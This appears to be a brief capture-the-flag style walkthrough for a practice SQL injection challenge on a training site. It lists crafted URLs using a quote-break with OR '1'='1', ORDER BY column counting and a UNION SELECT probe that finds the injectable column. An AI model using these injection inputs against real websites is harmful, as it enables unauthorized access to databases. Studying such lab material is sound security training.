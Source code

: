 <h1>Challenge</h1>

Note- No explanation, only links with relevant step as per Challenge 1. 

 

Challenge Link- http://leettime.net/sqlninja.com/tasks/basic_ch3.php?id=1 

 

http://leettime.net/sqlninja.com/tasks/basic_ch3.php?id=1"+OR+'1'='1'--+ 

 

http://leettime.net/sqlninja.com/tasks/basic_ch3.php?id=1"+ORDER+BY+5--+ 

Result- 5 columns 

 

http://leettime.net/sqlninja.com/tasks/basic_ch3.php?id=1"+UNION+SELECT+1,2,3,4,5--+ 

Result- Column 2 is vulnerable 

 

Challenge end. 

Important part- [id=1"] 
